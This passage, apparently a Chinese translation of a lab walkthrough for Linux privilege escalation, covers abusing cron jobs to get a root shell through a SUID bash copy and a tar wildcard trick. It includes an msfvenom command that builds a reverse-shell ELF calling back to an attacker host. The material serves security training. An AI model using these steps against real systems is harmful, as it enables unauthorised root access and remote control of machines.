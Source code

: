 **等待 cron 作业运行(不应超过一分钟)。使用-p 运行/tmp/rootbash 命令，获得以 root 权限运行的 shell:**

```
/tmp/rootbash -p
```

**在继续之前，请记住删除修改后的代码，删除/tmp/rootbash 可执行文件并退出提升的 shell，因为您稍后将在房间中再次创建该文件！**

```
rm /tmp/rootbash
exit
```

**![](img/4636b7c3610e5e606eaad377b3358e1d.png)**

# **任务 10: Cron 作业-通配符**

**查看其他 cron 作业脚本的内容:**

**`cat /usr/local/bin/compress.sh`**

**请注意，tar 命令是在您的主目录中使用通配符(*)运行的。**

**看看 T21 的 GTFOBins 页面。注意，tar 有命令行选项，允许您运行其他命令作为检查点特性的一部分。**

**在你的 Kali box 上使用 msfvenom 生成一个反向 shell ELF 二进制。相应地更新 LHOST IP 地址:**

**`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`**

**将 shell.elf 文件传输到 Debian VM 上的 **/home/user/** (您可以使用 **scp** 或将文件托管在 Kali box 上的 web 服务器上，并使用 **wget** )。确保文件是可执行的:**
